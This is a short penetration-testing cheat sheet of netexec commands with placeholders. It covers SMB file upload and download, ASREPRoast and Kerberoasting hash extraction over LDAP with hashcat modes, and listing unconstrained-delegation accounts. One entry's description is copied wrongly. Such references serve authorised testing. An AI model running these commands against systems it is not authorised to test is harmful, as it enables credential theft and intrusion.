 ## netexec - put file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
netexec smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## netexec - get file
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
netexec smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## netexec - ASREPRoast enum without authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
netexec ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## netexec - ASREPRoast enum with authentication
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
netexec ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## netexec - Kerberoasting
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
netexec ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## netexec - Unconstrained delegation
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
netexec ldap <dc_ip> -u <user> -p '<password>' --trusted-for-delegation
```
